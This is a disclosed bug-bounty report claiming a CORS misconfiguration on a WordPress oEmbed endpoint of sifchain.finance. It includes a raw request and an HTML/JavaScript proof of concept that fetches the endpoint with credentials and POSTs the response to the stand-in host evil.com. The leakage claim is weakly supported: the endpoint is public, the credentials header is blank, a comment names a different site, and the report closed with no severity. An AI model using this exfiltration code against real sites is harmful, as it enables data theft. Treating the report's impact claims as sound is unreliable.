 # CORS misconfiguration

## Report Details
- **Report ID**: 1187543
- **URL**: https://hackerone.com/reports/1187543
- **State**: Closed
- **Severity**: none
- **Submitted**: 2021-05-07T08:18:20.124Z
- **Disclosed**: 2021-06-29T23:12:42.882Z

## Reporter
- **Username**: legacy_defender
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: sifchain

## Vulnerability Information
##Description: Affected website: https://sifchain.finance/wp-json/oembed/1.0/embed?url=https://sifchain.finance/&format=xml

##Step-by-step Reproduction :

1. Send this request:
```javascript
GET /wp-json/oembed/1.0/embed?url=https://sifchain.finance/&format=xml HTTP/1.1
Host: sifchain.finance
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Connection: close
Origin: https://hacker4help.com
Cookie: __cfduid=df42fbb7a21cec869772467a93a9a4b981620366449
```
2. Here you can see the response headers:
```javascript
Access-Control-Allow-Origin: https://hacker4help.com
Access-Control-Allow-Methods: OPTIONS, GET, POST, PUT, PATCH, DELETE
Access-Control-Allow-Credentials: 
```
3. So you can write exploit:
```javascript
<!DOCTYPE html>
<html>
<body>
<center>
<h2>CORS PoC</h2>
<html>
<body>
<button type='button' onclick='cors()'>Exploit</button>
<p id='demo'></p>
<script>
function cors() {
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
var a = this.responseText; // Sensitive data from niche.co about user account
document.getElementById("demo").innerHTML = a;
xhttp.open("POST", "http://evil.com", true);// Sending that data to Attacker's website
xhttp.withCredentials = true;
console.log(a);
xhttp.send("data="+a);
}
};
xhttp.open("GET", "https://sifchain.finance/wp-json/oembed/1.0/embed?url=https%3A%2F%2Fsifchain.finance%2F&format=xml", true);
xhttp.withCredentials = true;
xhttp.send();
}
</script>
</body>
</html>
```
4. Save file as .html and open in and see Sensitive Information.

###Reference Exploit used: Exploit WordPress-5.2.4-Cross-Origin-Resource-Sharing

###Suggested Mitigation/Remediation Actions:

FIX 1 - It's possible to remove this access for anyone by change the source code where when someone request the Rest API and the server send a 404 (Not Found) message for the user who made the request.
Reference: https://github.com/WP-API/WP-API/issues/2338
FIX 2 - It's also possible to create a rewrite rule on .htaccess (if the webserver it's Apache) to redirect any request that contain rest_route (eg.: "^.rest_route=/wp/") to a Not Found (404) or a Default Page.

## Impact

Cross Misconfiguration -Leakage Sensitive Information

## Attachments
- bandicam_2021-05-07_13-47-21-959.mp4
